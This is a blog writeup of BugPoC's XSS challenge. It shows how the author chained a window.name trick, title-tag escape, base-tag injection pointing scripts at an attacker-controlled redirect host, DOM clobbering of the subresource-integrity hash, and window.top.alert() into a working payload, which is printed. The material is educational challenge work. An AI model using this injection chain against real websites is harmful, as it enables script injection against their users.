 ```yaml
---
layout: post
title:  "BugPoC's XSS Challenge Writeup"
date:   2020-11-09 11:09:00 +0545
author: machinexa
image: /writeups/assets/images/xsschallenge.jpeg
category: Writeups
---
```


## Description
From the time of the announcement, I was excited about the new challenge from BugPoC. The challenge was to pop alert box with origin as text, bypassing CSP, and sandboxed iframe. Also, the alert must work in the latest version of Chrome only. I started solving immediately after the challenge was released. The challenge URL is:  [wacky.buggywebsite.com](https://wacky.buggywebsite.com/)

### Finding Reflection
So, my first task was to find reflection or DOM XSS sink. Visiting the site, the first thing I noticed was the webpage was only available for Chrome, so I opened it in Chromium. Here's what it looked like: 

![Homepage](/writeups/assets/images/xsschallenge_homepage.png)

I tried writing some text and it was successfully reflected. I immediately tried some tags but nope it didn't work. The regex was replacing `&*<>%` characters with a blank string. The thing to note was that it was reflected as `<iframe src="frame.html?param=Hello, World!" name="iframe">`  

I thought about injecting event handler and attributes like srcdoc but I don't think any will work because popping alert won't be easy, will it?
Besides, I found about frame.html from the reflection so I started to analyze its source code. There were lots of scripts and the one that was important was:
```js
window.fileIntegrity = window.fileIntegrity || {
	'rfc' : ' https://w3c.github.io/webappsec-subresource-integrity/',
	'algorithm' : 'sha256',
	'value' : 'unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=',
	'creationtime' : 1602687229
}

// verify we are in an iframe
if (window.name == 'iframe') {
	// securely load the frame analytics code
	if (fileIntegrity.value) {
		// create a sandboxed iframe
		analyticsFrame = document.createElement('iframe');
		analyticsFrame.setAttribute('sandbox', 'allow-scripts allow-same-origin');
		analyticsFrame.setAttribute('class', 'invisible');
		document.body.appendChild(analyticsFrame);

		// securely add the analytics code into iframe
		script = document.createElement('script');
		script.setAttribute('src', 'files/analytics/js/frame-analytics.js');
		script.setAttribute('integrity', 'sha256-'+fileIntegrity.value);
		script.setAttribute('crossorigin', 'anonymous');
		analyticsFrame.contentDocument.body.appendChild(script);
	}
} else {
	...
}
```
<br>
The first thing I tried was to change the window.name to "iframe" from dev tools, then refresh the page. You might think it's self XSS as user interaction is required but it is not:

![window.name](/writeups/assets/images/xsschallenge_windowname.png)

It is a special global variable because it is persistent across cross-domain. Thus, an attacker can change the variable, and it will be available even after refreshing or visiting a new page. After checking its source, we got 2 reflections and 1 partial reflection. The important was unsanitized input reflected in `<title>` while the rest were either useless or sanitized.

### Bypassing CSP and SRI
After getting unsanitized reflection, I tried to escape from the title then pop alert. I used this payload `</title><script>alert(1)</script>` but unfortunately, the Chrome's great CSP blocked it. Using CSP evaluator from Google, I found out this CSP was faulty. The following message caught my attention:
```
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker-controlled domain. Can you set it to 'none' or 'self'?
```
<br>
Injecting the `<base>` tag will cause the script to be fetched from an attacker-controlled domain, thus executing arbitrary javascript. If you remember the code above, there is actually a script tag that fetches `frame-analytics.js`. Everything was ready for my plan and I was hoping for an alert but nope. After injection, the only thing I got was another error which got me frustrated.  

![Integrity error](/writeups/assets/images/xsschallenge_sri.png)

It was an integrity error which is related to SRI (Sub Resource Integrity), which protects against compromised script sources. In nutshell, it's a hash of the entire javascript file. There was no way I could generate the same hash, and a collision was impossible as the browser only supports collision resistant hashes. However, if I could change `window.fileIntegrity.value`, maybe I could set the value to the hash of my file.  

The id and value attribute of `<input>` directly affects javascript variables. Its a well known method of DOM Clobbering commonly used in CTFs. So, I used the following script: 
```html
<script>
window.name = "iframe";
payload = encodeURI('</title><base href="https://wzqkyz5l1054.redir.bugpoc.ninja/"><input id="fileIntegrity" value="3ZRbpxB3ZH9LPg3CX6ZGzidaPOFZOSpeK06lI1eZOLE=">');
window.location = "https://wacky.buggywebsite.com/frame.html?param=" + payload; //
</script>
```
And guess what happened? I got another error :rage:

### Magical alert box
Since, allow-modals wasn't set I tried experimenting with different frames and window objects. By default, Chrome blocks call to alert in the sandboxed environment ([Blocked modal dialogs](https://googlechrome.github.io/samples/block-modal-dialogs-sandboxed-iframe/)). Searching for a bypass, I didn't get anything useful, however, it was very easy to bypass, I just needed to alert on the upper frame. For that I used, `window.top.alert()`.  

Finally, the moment I was waited for after trying for so long came. I got the **magical alert box**, it was truly amazing. 

![Magical alert box](/writeups/assets/images/xsschallenge_alert.png)


## Takeaway 

* When going for XSS, search for as much reflection and sink as you can.
* Make sure to always review CSP policies. 
* Never stop learning, you find something new each day. 

The challenge was awesome, and I loved it. I also learned a lot of new things. Also, thanks to:
* BugPoC and Amazon for hosting and sponsoring the challenge.
* LiveOverflow for an awesome window.name trick
* Naina for teaching me about weird javascript techniques.

By the way, if you haven't watched [Liveoverflow's video](https://www.youtube.com/watch?v=L1RvK1443Yw&t=307s), go watch it now.
